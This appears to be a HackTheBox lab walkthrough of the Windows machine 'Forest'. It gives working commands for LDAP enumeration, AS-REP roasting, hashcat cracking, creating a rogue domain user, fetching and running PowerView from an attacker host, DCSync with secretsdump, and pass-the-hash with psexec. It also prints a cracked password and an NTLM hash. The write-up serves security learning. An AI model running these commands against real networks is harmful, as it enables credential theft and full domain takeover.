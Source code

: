 ```yaml
---
title: Forest @ HackTheBox  
date: 2025-04-14 13:00:00 
categories: [HTB Machines,Windows Machines]
tags: [ad,asreproast,ad,bloodhound,dcsync]     # TAG names should always be lowercase
comments: true
---
```

**Hello** This is a very simple walkthrough for the windows machine Forest. In this walkthrough we'll be see some basic AD enumeration and Exploitation, without further ado let's get into it 
# Enumeration
## Nmap
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
we can see from the scan that this machine is a domain controller for the domain htb.local next we’ll enumerate LDAP and look for anonymous bind 
> dont forget to add the domain to /etc/hosts file.
{: .prompt-tip }
## LDAP Enumeration
we’ll try enumerating ldap using the cli command : ldapsearch 
```shell
ldapsearch -H ldap://10.10.10.161 -x -b "dc=htb,dc=local"
```
the -x flag specifies using anonymous authentication, while -b denotes the basedn.
seems ldap anonymous bind is enabled, next we’ll do some digging to find extra info such as user and groups.
### User Enumeration using windapsearch
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U 
```
the -U used is for enumerating users, we could attempt to password spray all the users found but before doing so lets dig a little more in the ObjectClass of ldap, use  `--custom` flag withe `ObjectClass=*` argument to retrieve all :
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "ObjectClass=*"
```
this query returned 312 results among them was an interesting user called `svc-alfresco` a few online search about this revealed that this account requires disabling pre-auth in kerberos, so that means the account is vulnerable to `AS_REProast`. 
This attack levrages the disabling of pre-authentication in kerberos to request a TGT from the KDC,meaning that any attacker knowing only the username can get a segment of the tgt that is encrypted with the victim’s password hash, after that the attacker can perform offline password crack to get the plaintext password.
# AS_REProast → Foothold 
for this we’ll use the script `GetNPUsers.py` from **Impacket** :
```shell
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 
```
ok now since we've got the encrypted tgt ticket with the svc-alfresco password’s hash, now let's try to crack that, for this i'll use hashcat :
```shell
hashcat -m 18200 tgt /usr/share/wordlist/rockyou.txt
```
18200 represents the code for kerberos ASRep hash.

now that we get the password let's try to login to the account using **WinRM** service (reminder port 5985 was open), for this we’ll use evil-winrm :
```shell
evil-winrm -i 10.10.10.161 -u svc-alfresco -p "s3rvice" 
```
# PrivEsc
now since we gained a foothold inside the active directory its time to unleash the bloodhound and enumerate, i like to use bloodhound-python as my ingestor if you are comfortable with sharphound feel free to use it :
```shell
bloodhound-python -d htb.local -usvc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161 
```
next crate a neo4j instance and start bloodhound then upload the json files retrieved from the ingestor, after that search for the user svc-alfresco and mark it as owned. A quick review of the account group membership show that the user svc-alfresco is a member of 9 group
![screen_1](/./media/post2/bloodhound_1.png)
one in particular is interessting, the **Account Operators Group**, according to microsoft the account operators group members have the right to create users and add them to groups.

so from there lets see if we can find a high value target we can append a rogue user to and exploit it. go to analysis and select Shortest **Path to High Value targets**.
![screen_2](/./media/post2/bloodhound_2.png)

it looks like the exchange windows group has **writeDacl** rights on the domain and this could be leveragrd to grant the user any rights including **DCSync** right.

For this we’ll create another user called **jason** with a password of **psswd123** and then add him to 2 groups exchange windwos permissions and remote management users.
```powershell
> net user jason psswd123 /add /domain
> net group "Exchange Windows Permissions" jason /add
> net localgroup "Remote Management Users" jason /add
```
The commands above create a new user named john and add him to the required groups. Next,
download the **PowerView** script and import it into the current session.

before loading the script we should use the **bypassAMSI** option in the menu.

Next, we can use the **Add-ObjectACL** with john's credentials, and give him **DCSync** rights.
```powershell
> iex(new-object net.webclient).downloadstring('http://$IP:8090/PowerView.ps1')
> $SecPassword = Convertto-SecureString 'psswd123' -AsPlainText -force
> $Cred = New-Object System.Management.Automation.PSCredential('htb\jason', $SecPassword)
> Add-objectACL -PrincipalIdentity jason -Credential $Cred -Rights DCSync
````
The **secretsdump.py** script from Impacket can now be run as john, and used to reveal the NTLM
hashes for all domain users.
```shell
secretsdump.py htb/jason@10.10.10.161
```
now lets try to perform some **pass-the-hash** technique to acces the admin account, for this we’ll use **psexec.py** script from impacket :
```shell
psexec.py htb/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
## Conclusion
This we'll be the end of this walkthrough, as technique for solidifying my knowledge i like to list all the new things i've learnt in this machine. Since i am new to AD envirement i learned a lot of things in this box :
- **LDAP** Anonymous bind Enumeration (ldapsearch,windapsearch).
- **AS_REProast** Attack.
- **Bloodhound** Basic Enumeration.
- **DCSync** Attack
